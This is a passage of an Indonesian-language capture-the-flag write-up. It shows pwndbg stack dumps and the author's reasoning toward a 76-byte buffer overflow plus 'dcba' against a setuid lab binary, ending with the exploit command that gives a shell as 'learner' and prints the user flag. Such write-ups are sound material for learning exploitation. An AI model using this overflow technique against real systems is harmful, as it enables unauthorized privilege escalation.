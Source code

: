 ```
0x7fffffffded0:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffdee0:	0x00000000	0x00000000	0xf7fe6c00	0x00007fff
0x7fffffffdef0:	0x00000000	0x00000000	0xf7ffdab0	0x00000000
0x7fffffffdf00:	0x00000002	0x00000000	0xf7dd7290	0x00007fff
0x7fffffffdf10:	0xffffe000	0x00007fff
```
lihat? nilai `0xdeb0` masih `0x0`. ketika saya `next instruction` lagi, saya mendapatkan sesuatu yang menakjubkan pada ekstraksi dan `instruction` yang ada di `dissassembled code`,
```
 ► 0x5555555551e2 <main+93>     mov    eax, dword ptr [rbp - 4]
   0x5555555551e5 <main+96>     cmp    eax, 0x61626364 

pwndbg> x/30wx $rsp
0x7fffffffdea0:	0xffffe018	0x00007fff	0x00000000	0x00000002
0x7fffffffdeb0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffdec0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffded0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffdee0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffdef0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffdf00:	0x00000000	0x00000000	0xf7dd7290	0x00007fff
0x7fffffffdf10:	0xffffe000	0x00007fff
```
maka jika `0x50` adalah 80, saya memastikan bahwa tadi yang mana `rbp-0x50` lalu bertemu dengan nilai `rax` adalah `0x44` dan nilai asli `rbp` adalah `0x8` maka jawaban yang tepat untuk mengisi huhu :( itu berarti `4`. dan `0x50 - 0x4` = `76 bytes` untuk jumlah `A` dan + 4 dengan nilai `dcba` yang artinya `0x61626364` biar nilainya sama jika dikomparasi dan bisa mendapatkan shell dari `learner`.
```
0x55555555521f <main+154>           call   printf@plt                <printf@plt>
        format: 0x555555556077 ◂— 'Try again, you got 0x%08x\n'
        vararg: 0x41414141
```
see? failed. dan benar ini seperti sudah melebihi karena `vararg` itu jumlah `A` yang mempunyai nilai hex `0x41414141`.

<div style="padding-top: 5x"></div>

dengan `run $(python -c 'print("A"*76)')`. bagian stack `0x7fffffffdefc` mempunyai ekstraksi `0x00000000` yang mana ini harus dimodifikasi menjadi `dcba` agar nantinya melengkapi nilai keseluruhan buffer `80`.
```
pwndbg> x/4x 0x7fffffffdef0
0x7fffffffdef0:	0x41414141	0x41414141	0x41414141	0x00000000 --> 0xdefc
pwndbg> 
```
## shell as learner
Dan jika saya coba.
```
www-data@Learn2Code:/dev/shm$ /usr/bin/MakeMeLearner $(python -c 'print("A"*76 + "dcba")')
learner@Learn2Code:/dev/shm$ cat /home/learner/user.txt
N1c3m0veMat3!
```
## privilege escalation
